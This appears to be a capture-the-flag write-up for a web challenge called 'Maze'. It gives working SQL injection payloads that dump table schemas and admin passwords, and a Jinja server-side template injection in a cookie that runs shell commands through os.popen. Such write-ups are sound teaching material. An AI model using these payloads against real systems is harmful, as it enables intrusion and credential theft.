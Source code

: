 
# Maze

"maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there"

`<link to website>`

<hr>

The root path of the website redirects to the `/login` path, that presents a login form.

![Login Page](images/maze_login.png)

Looking at `/robots.txt` it contains a path `/sup3r_secr37_@p1`. When visiting this path, wer are presented with a GraphiQL window, in which we can run GraphQL queries.

Writing anything in the query side of the page, we can see all queries that we can query against the database (You could also send an introspection query to find all possible queries, but since we have a GraphiQL window here we'll utilize that.). The only possible query is `allTraders`, which I suppose queries for "traders" in the database.

Using the autocomplete/suggestion by GraphiQL, we query for all possible users and get as much data as we can returned by the query:

![GraphiQL Datamining](images/maze_datamining.png)

Using the username `XFT` and the password `iigvj3xMVuSI9GzXhJJWNeI`, we are able to login to the login page at the root path, `"/"`.

![Logged in](images/maze_logged_in.png)

![Coin](images/maze_coin.png)

Now logged in we observe two things:

1) There is an admin page that looks just like the normal `/login` path
2) There are three coins displayed on the landing page that are displayed on a separate page, queried by the argument `coin`.

Lets see if there's a SQL injection on the query!

We can confirm that there is a SQL injection with the following query:
```
/trade?coin=' AND 1=2 --
```

If the sql server is sqlite3, all table names are stored in the table `sqlite_master`, which has the columns `type`, `name`, `tbl_name`, `rootpage` and most notably `sql` which contains the SQL command to create the table.

Trying our luck we use `UNION SELECT` on the `sqlite_master` table, getting the name of table and the sql command used to create it. Since we know the webpage displays a title and a body for a coin, we can determine that there are two columns fetched so we match that in our `UNION SELECt`.
```
/trade?coin=' AND 1=2 UNION SELECT name, sql FROM sqlite_master --
```

With luck we immediately see the name and the sql command used to create the `admin` table (if we hand't been so lucky we could have specified which row in `sqlite_master` to return using the clause `WHERE rowid=n`). The result is:

![SQLI REsult](images/maze_sqli_result.png)


We then proceed obtaining all usernames and passwords in the `admin` table using:
```
/trade?coin=' AND 1=2 UNION SELECT username, password FROM admin --
```

The first row returned contains the data:
```
username = admin
password = p0To3zTQuvFDzjhO9
```
which we can then use to login on the `/admin` path.

Now logged in, we are prompted to "get the flag and beat the maze". The cookie `name` is also set to the value `skid`, along with a global variable defined 

![Admin Page](images/maze_admin.png)

![Admin Page HTML Source](images/maze_admin_src.png)

We can also observe that the global variable `name` is set to `skid`, which is the same value that the cookie is set to by default. Perhaps this could be a SSTI (Server Side Template Injection).

Setting the cookie to `{{1+1}}`, the name variable is set to :
```javascript
var name = "2";
```

Setting the cookie to `{{3 * '3'}}`, we determine that the template engine is written in python and is most likely [Jinja](https://jinja.palletsprojects.com/en/2.11.x/) (a very popular python template engine). This result is:
```javascript
var name = "333";
```

Knowing the template engine, we can easily execute shell commands via pythons os module. 

Using the shell command `ls` we see that there is a file called `flag.txt` in the current directory.
```
name={{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

Response:
var name = "Dockerfile
__pycache__
app.py
coins.db
flag.txt
note
requirements.txt
run.sh
sandbox
static
templates
wsgi.py
";
```

Running `cat flag.txt` gives us the flag:

```
name={{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}

flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
```

